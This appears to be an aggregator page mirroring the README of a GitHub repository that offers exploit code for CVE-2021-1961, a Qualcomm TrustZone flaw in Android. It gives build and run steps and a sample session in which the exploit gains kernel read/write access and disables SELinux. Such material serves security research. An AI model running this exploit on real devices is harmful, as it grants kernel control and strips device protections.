 # CVE-2021-1961

Exploit code for CVE-2021-1961

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/tamirzb](https://github.com/tamirzb) |
| Url      | [https://github.com/tamirzb/CVE-2021-1961](https://github.com/tamirzb/CVE-2021-1961)                                               |
| Stars    | 95                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

Exploit code for CVE-2021-1961. Full write-up is available
[on my blog](https://tamirzb.com/attacking-android-kernel-using-qualcomm-trustzone).

In order to build the exploit, run Android NDK's `ndk-build`.

In order to run the exploit, you need to have access to `/dev/qseecom`, which
means having the right user/group and the right SELinux context. This can be
done either on a debug image using the command `su system`, or on a stock image
patched with [Magisk](https://github.com/topjohnwu/Magisk) using the command
`su - system`.

Here is an example of running the exploit on a stock image patched with Magisk:

```bash
$ adb push qseecom_exploit /data/local/tmp
$ adb shell
blueline:/ $ cd /data/local/tmp
blueline:/data/local/tmp $ su - system
blueline:/data/local/tmp $ id
uid=1000(system) gid=1000(system) groups=1000(system) context=u:r:magisk:s0
blueline:/data/local/tmp $ getenforce
Enforcing
blueline:/data/local/tmp $ ./qseecom_exploit
[+] Setup widevine
[+] Got a 32 bit addresses ION
[+] Setup exploit kernel r/w
[+] Found kallsyms_token_table marker
[+] Found all kallsyms data
[+] Kernel virtual base address: 0xffffff9b9b080000
[+] Modified /proc/version
[+] Disabled SELinux
blueline:/data/local/tmp $ cat /proc/version
*modified*
blueline:/data/local/tmp $ getenforce
Permissive
```



## Get the content

```
git clone https://github.com/tamirzb/CVE-2021-1961
cd CVE-2021-1961
```

{% embed url="https://github.com/tamirzb/CVE-2021-1961" %}

<figure><img src="https://avatars.githubusercontent.com/u/1054209?v=4" alt=""><figcaption><p>tamirzb</p></figcaption></figure>
